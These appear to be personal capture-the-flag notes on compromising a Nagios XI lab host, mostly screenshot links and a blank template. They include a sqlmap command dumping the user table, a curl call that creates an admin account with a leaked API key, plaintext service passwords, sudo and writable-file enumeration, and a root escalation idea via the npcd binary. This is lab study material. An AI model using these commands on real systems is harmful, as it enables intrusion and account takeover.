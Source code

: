 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #nagios

# Findings

## External
### Enumeration
`$enum$`

### Gaining Access


## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access


# Random Notes
```py
nagiosadmin 
```
<!--⚠️Imgur upload failed, check dev console-->
![](https://i.imgur.com/m9i1KZm.png)
![](https://i.imgur.com/BqH0Q6h.png)
![](https://i.imgur.com/PAz9d45.png)
`svc : XjH7VCehowpR1xZB`
- ![](https://i.imgur.com/0ahRKph.png)

	- ![](https://i.imgur.com/xTR6uh0.png)
![](https://i.imgur.com/mjoAqyd.png)
![](https://i.imgur.com/PhQx6e5.png)
![](https://i.imgur.com/ZiFtQqW.png)
![](https://i.imgur.com/bLFl7Q3.png)
![](https://i.imgur.com/35EqJGM.png)
- Tried the SQL injtection but it is not working
```shell
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=47dcd5b7f981287a8f3981a88a5d12c71389e3cc" -p id -level=5 -risk=3 -D nagiosxi -T xi_users -dump
```
- So i Skilled that part and got the api key from some writeups.
![[Pasted image 20240413162215.png]]
```shell
curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=rexder&password=rexder&name=rexder&email=rexder@monitored.htb&auth_level=admin"
```
![](https://i.imgur.com/jru7LhU.png)

![](https://i.imgur.com/EceML65.png)
![](https://i.imgur.com/S4gdOIu.png)
![](https://i.imgur.com/4zbQcFD.png)

![](https://i.imgur.com/T80BMcO.png)
![](https://i.imgur.com/wUXevCI.png)


/var/mail/svc
/var/spool/mail/svc
/opt/scripts/check_host.sh
/usr/local/nagios/libexec/check_icmp  - suid
/usr/local/nagios/libexec/check_dhcp
```shell
╔══════════╣ Writable log files (logrotten) (limit 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#logrotate-exploitation
logrotate 3.18.0

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes
Writable: /usr/local/nagios/var/nagios.log
Writable: /usr/local/nagios/var/npcd.log
Writable: /usr/local/nagiosxi/var/sysstat.log
Writable: /usr/local/nagiosxi/var/nom.log
Writable: /usr/local/nagiosxi/var/cmdsubsys.log
Writable: /usr/local/nagiosxi/var/components/auditlog.log
Writable: /usr/local/nagiosxi/var/components/capacityplanning.log
Writable: /usr/local/nagiosxi/var/perfdataproc.log
Writable: /usr/local/nagiosxi/tmp/phpmailer.log
Writable: /usr/local/nrdp/win_clients/NRDS_win_source/logs/NRDS_Debug.log
```


```
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
- /usr/local/nagiosxi/html/config.inc.php
	- ![](https://i.imgur.com/rZItFMv.png)
`nagiosql : n@gweb`

 "user" => 'ndoutils',
        "pwd" => 'n@gweb',
    "user" => 'nagiosxi',
        "pwd" => 'n@gweb',
```
{
"title": "qwe",
"description": "qwe",
"price": 12,
"type": "FB",
"image":null
}
```

![](https://i.imgur.com/XPBd3Ec.png)
- Checking the manage_services.sh, i got npcd and nagios, 
	- ![](https://i.imgur.com/qRJhlTC.png)

- Here the npcd is not here so i find it 
	- ![](https://i.imgur.com/hxABufq.png)
	- and Good For us, we have right acc
		- ![](https://i.imgur.com/TDnEAm3.png)
- We can use this endpoint and make it malicious, if we do it with normal binary we cant use the manageservice.sh.(that is the main point)

![](https://i.imgur.com/0DuaXSz.png)
![](https://i.imgur.com/6ushorZ.png)
